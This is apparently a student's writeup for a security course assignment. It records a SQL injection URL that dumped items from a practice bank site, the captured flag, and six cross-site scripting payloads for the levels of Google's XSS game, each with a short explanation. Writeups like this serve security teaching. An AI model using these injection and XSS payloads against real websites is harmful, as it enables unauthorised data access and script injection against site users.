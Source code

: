 # Crypto II Writeup

Name: *Japneet Singh Arora*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: *Japneet Singh Arora*

## Assignment Writeup

### Part 1 (40 Pts)
I found the flag to be `CMSC389R-{y0u_ar3_th3_SQ1_ninj@}`. I did this by showing all items on the website with a statement that is always true in the url `http://1337bank.money:5000/item?id='||'1'='1`.

### Part 2 (60 Pts)
1.  `<script>alert("lolol");</script>`. Tried inserting this into the searchbar and this displayed the script as a query.

2.  `<img src="" onerror="alert('lolol')"></img>`. After spending some time on this i realised that i could use the onerror attribute, which would throw an erorr every time the page was loaded. This was possible using the image tag.

3.  `https://xss-game.appspot.com/level3/frame#1' onerror='alert("lolol")'`. Subsituted the value of num to a string literal and also added the onerror attribute to trigger the popup.

4.  `'); alert('xss`. I saw that we can inject a popup dialogue by closing the start time function and a call to alert().

5.  `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('lolol');`. After pressing the sign up button, the url changed to signup?next=confirm. So i set the url after next to a javascript alert.

6.  `https://xss-game.appspot.com/level6/frame#//google.com/jsapi?callback=alert`. Played with this for a while and later found an API that would bring up the alert.